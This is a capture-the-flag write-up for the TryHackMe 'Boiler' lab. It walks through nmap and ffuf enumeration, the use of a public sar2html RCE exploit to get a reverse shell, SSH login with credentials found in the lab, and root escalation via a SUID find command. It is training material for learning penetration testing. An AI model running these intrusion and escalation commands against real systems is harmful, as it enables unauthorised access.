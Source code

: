 #  TryHackMe - Boiler CTF Write-up

##  Room Info
- **Name:** Boiler CTF  
- **Difficulty:** Easy  
- **Date Completed:** 10.09.2025  
- **Target IP:** xxx.xxx.xxx.xxx  

---

##  Enumeration

### Nmap Scan
First, I performed a full port scan:

```bash
sudo nmap -sV -sC -Pn -p- xxx.xxx.xxx.xxx
```

**Results:**
- 21/tcp → FTP (nothing useful)  
- 80/tcp → HTTP  
- 10000/tcp → MiniServ v1.930  
- 55007/tcp → SSH  

---

##  Web Enumeration
Checking port 80, I found a website. Using **ffuf**, I discovered multiple directories:

```bash
ffuf -u http://xxx.xxx.xxx.xxx/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

Interesting directories:
- `/joomal` (Joomla site)  
- `/joomal/manual`  
- `/joomal/administrator`  
- `/joomal/_file`  
- `/joomal/_test` → running **sar2html v3.2.1**  

On port **10000**, I found **MiniServ v1.930**, but no working exploit was available.

---

##  Exploitation
`sar2html v3.2.1` is vulnerable to **RCE**.  
I used this public exploit: [sar2HTML_exploit](https://github.com/Jsmoreira02/sar2HTML_exploit)

Result: I obtained a reverse shell as **www-data**.

During enumeration, I found a file `log.txt` both on the website and inside the shell.  
It contained valid SSH credentials:

```
User: basterd
Password: superduperp@$$
```

---

##  SSH Access
Logged in via SSH:

```bash
ssh basterd@xxx.xxx.xxx.xxx -p 55007
```

---

##  Privilege Escalation
I searched for SUID binaries:

```bash
find / -user root -perm -4000 -type f 2>/dev/null
```

Exploitable binary: **find**

I escalated privileges using:

```bash
find . -exec /bin/bash -p \; -quit
```

Result: **root shell obtained** 

---

##  Root Flag
```bash
cat /root/root.txt
```

Flag successfully captured 

---

##  Conclusion
- Entry point: **sar2html v3.2.1 RCE**  
- Credential discovery via `log.txt` → SSH access  
- Privilege escalation via SUID `find` binary  
- Root flag captured  

**Boiler CTF pwned!** 

---
